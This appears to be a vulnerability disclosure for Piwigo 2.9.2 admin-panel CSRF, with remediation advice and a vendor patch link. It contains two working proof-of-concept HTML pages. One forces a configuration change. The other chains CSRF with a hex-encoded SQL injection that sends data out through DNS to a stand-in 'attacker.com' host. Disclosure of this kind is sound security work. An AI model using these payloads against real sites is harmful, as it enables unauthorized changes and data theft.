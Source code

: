 -----
layout: none
-----

## Cross Site Request Forgery in Piwigo 2.9.2

<u>**Affected Version : <=2.9.2**</u>



<u>**Description:**</u> 

It was identified that admin panel of Piwigo application is vulnerable to [Cross Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) vulnerabilities. An attacker can exploit these vulnerabilities to coerce user in performing unintended actions.



<u>**Vulnerable Instances**</u>:

- /admin.php?page=configuration&section=main



<u>**Steps to Reproduce**</u>

* Login to `admin` user account.
* Save the following exploit in a new html file, example: `csrf_exploit.html`.

**CSRF Exploit**

```html
<!-- csrf_exploit.html --> 
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/piwigo-2.9.2\/piwigo\/admin.php?page=configuration&section=main", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "gallery_title=CSRF+ATTACK&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

* Open the `csrf_exploit.html` file in the same browser in a new tab as of `admin` user has logged in.
* Observe the title of application is changed to `CSRF ATTACK`.

![csrf_poc](/assets/images/piwigo2.9.2/csrf.png)



### Out of Band SQL Injection via CSRF

Following `Exploit` shows that using above attack an attacker can exploit other vulnerabilities with in the application such as `SQL Injection` and exfiltrate data via DNS queries. 

```html
<!--Out of SQL Injection via CSRF-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/piwigo-2.9.2\/piwigo\/admin.php?page=batch_manager&mode=unit", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "element_ids=12%2c13)+union+select+LOAD_FILE(group_concat(0x2f2f2f2f,(select+@@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2+--+&name-12=funny+cat+5-wallpaper-1920x1080&author-12=this+is+test&date_creation-12=2016-11-24+00%3A00%3A00&level-12=0&tags-12%5B%5D=this+is+test&description-12=this+is+test&name-13=pirates+of+the+caribbean+dead+men+tell+no+tales-wallpaper-960x600&author-13=this+is+test2&date_creation-13=2016-11-23+00%3A00%3A00&level-13=0&tags-13%5B%5D=this+is+test2&description-13=this+is+test2&submit=Submit";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

![csrf_dns](/assets/images/piwigo2.9.2/csrf_2.png)



<u>**Remediation:**</u>

Piwigo 2.9.2 application implements CSRF attack protection via `_csrf`  tokens in number of components, it is recommended to implement similar protection for `Configuration` components. Addition information on CSRF Prevention techniques can be found [here](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

**<u>Vendor Patches:</u>**

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f) 

